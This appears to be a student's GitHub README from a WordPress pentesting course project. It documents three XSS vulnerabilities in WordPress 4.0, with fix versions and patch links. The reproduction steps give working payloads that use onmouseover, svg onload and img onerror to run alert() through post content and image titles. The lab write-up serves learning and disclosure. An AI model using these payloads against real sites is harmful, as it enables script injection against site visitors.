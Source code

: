# Project 7 - WordPress Pentesting

Time spent: 9 hours spent in total

> Objective: Find, analyze, recreate, and document **Three vulnerabilities** affecting an old version of WordPress

## Pentesting Report

1. (Required) Vulnerability Name or ID
  - [ ] Summary: 
    - Vulnerability types: XSS
    - Tested in version: 4.0
    - Fixed in version: 4.2.3
  - [ ] GIF Walkthrough: <img src="first.gif" width="800">
  - [ ] Steps to recreate: create a new post, and paste <a href="[caption code=">]</a><a title="  onmouseover=alert('hello')  ">link</a> into text entry. Finally, go to Preview.
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/changeset/33359)
2. (Required) Vulnerability Name or ID
  - [ ] Summary: 
    - Vulnerability types: XSS
    - Tested in version: 4.0 
    - Fixed in version: 4.7.3
  - [ ] GIF Walkthrough: <img src="second.gif" width="800">
  - [ ] Steps to recreate: create a new post, paste [embed src='https://youtube.com/embed/second\x3csvg onload=alert(1)\x3e'][/embed] into text entry, then go to preview.
  - [ ] Affected source code:
    - [Link 1](https://github.com/WordPress/WordPress/commit/419c8d97ce8df7d5004ee0b566bc5e095f0a6ca8)
3. (Required) Vulnerability Name or ID
  - [ ] Summary: 
    - Vulnerability types: XSS
    - Tested in version: 4.0
    - Fixed in version: 4.2.10
  - [ ] GIF Walkthrough: <img src="third.gif" width="800">
  - [ ] Steps to recreate: post a image, then change the title of image with "examplePicture<img src=a onerror=alert('hello')>.jpg", then click view attachment page.
  - [ ] Affected source code:
    - [Link 1](https://github.com/WordPress/WordPress/commit/c9e60dab176635d4bfaaf431c0ea891e4726d6e0)

## Assets

List any additional assets, such as scripts or files

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## Notes

Most vulnerabilities are based on XSS, which is not easy to me.

## License

    Copyright [2018] [Xiaohang Zou]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
